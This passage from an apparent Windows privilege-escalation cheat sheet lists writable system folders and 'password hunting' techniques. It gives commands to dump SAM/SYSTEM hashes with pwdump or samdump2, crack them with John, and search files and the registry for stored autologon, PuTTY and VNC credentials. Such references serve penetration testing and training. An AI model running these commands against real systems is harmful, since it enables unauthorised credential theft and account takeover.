 ### Default Writeable Folders

- C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
- C:\Windows\System32\spool\drivers\color
- C:\Windows\Tasks
- C:\windows\tracing

## Hunting Passwords

### SAM and SYSTEM files
The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in 
`%SystemRoot%/system32/config/SAM` and is mounted on `HKLM/SAM`.

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using pwdump or samdump2.
```bash
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT /root/sam.txt`.

### Search for file contents

```bash
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

### Search for a file with a certain filename

```bash
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
# cmd
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```bash
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```